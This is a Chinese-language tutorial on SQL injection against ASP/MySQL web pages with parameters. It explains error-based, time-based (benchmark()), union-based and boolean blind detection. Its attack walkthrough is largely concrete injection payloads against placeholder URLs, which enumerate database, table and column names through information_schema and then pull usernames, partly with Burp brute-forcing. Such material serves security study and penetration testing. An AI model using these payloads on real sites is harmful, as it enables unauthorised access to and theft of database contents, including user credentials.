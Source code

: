 一般来说，SQL 注入一般存在于形如：http://xxx.xxx.xxx/abc.asp?id=XX 等带有参数的 ASP 动态网页中，有时一个动态网页中可能只有一个参数，有时可能有 N 个参数，有时是整型参数，有时是字符串型参数，不能一概而论。总之只要是带有参数的动态网页并且该网页访问了数据库，那么就有可能存在 SQL 注入。

1、先加单引号’、双引号"、等看看是否报错，如果报错就可能存在SQL注入漏洞了。-
2、还有在URL后面加 and 1=1 、 and 1=2 看页面是否显示一样，显示不一样的话，肯定存在SQL注入漏洞了。-
3、还有就是Timing Attack测试，也就是时间盲注。通过简单的条件语句比如 and 1=2 是无法看出异常的。在MySQL中，有一个Benchmark() 函数，它是用于测试性能的。 Benchmark(count,expr) ，这个函数执行的结果，是将表达式 expr 执行 count 次 。-
因此，利用benchmark函数，可以让同一个函数执行若干次，使得结果返回的时间比平时要长，通过时间长短的变化，可以判断注入语句是否执行成功。

## 四、sql注入实例

## 1、union联合查询

          union联合、合并：将多条查询语句的结果合并成一个结果，union 注入攻击为一种手工测试。 
          注入思路：
          			A:判断是否存在注入点http://xxxxxxxxx?id=1 
                         1' 异常 1 and 1=1  返回结果和 id=1 一样 
                         1 and 1=2  异常 
                         从而则一定存在 SQL 注入漏洞
                    B:order by 1-99 语句来查询该数据表的字段数
                    C:利用获得的列数使用联合查询，union select 与前面的字段数一样
                      找到了数据呈现的位置http://xxxxxxx?id=1 union select 1,2,3,4,5,6 
                    D:根据显示内容确定查询语句的位置，利用 information_schema 
                    依次进行查询 schemata， tables，columns 
                    E:已知库名、表名和字段名，接下来就爆数据
    
        

## 2、boolean注入

       判断方式：
       通过长度判断 length(): length(database())>=x
       通过字符判断 substr():substr(database() ,1,1)= 's'
       通过 ascII 码判断:ascii():ascii(substr(database(),1,1)) =x 
       注入漏洞判断：
       1.id=1'   报错 
       2.id=1 and 1=1  结果和 id=1 一样
       3.id=1 and 1=2  结果异常
    
        

攻击实战：-
Boolean 注入是指构造 SQL 判断语句，通过查看页面的返回结果来推测哪些 SQL 判断条件是成立的，以此来获取数据库中的数据。

      A:判断数据库名的长度 http://xxxxxx?id=1' and length(database())>=1--+  从而判 断数据库名的长度为 4
      B:判断数据库名 Substr() 数据库库名 a~z,0~9 ‘and substr(database(),1,1)--+ 
      C:Burp 判断数据库名 http://xxxxxxxx?id=1' and substr(database(),1,1)='a'--+ 逐字判断数据库名为 test，test 数据库名 
      D:Burpsuite 爆破数据库的表名 http://xxxxxx?id=1' and substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1)='a'--+ person     users   xss  //三个表
      E:Burp 爆字段名 http://xxxxxxxx?id=1' and substr((select column_name from information_schema.columns where table_schema='test' and table_name='users' limit 0,1),1,1)='a'--+ id   username  password 等
      F:获取数据 http://xxxxx?id=1' and substr((select username from test.users limit 0,1),1,1)='a'--+ 
    
        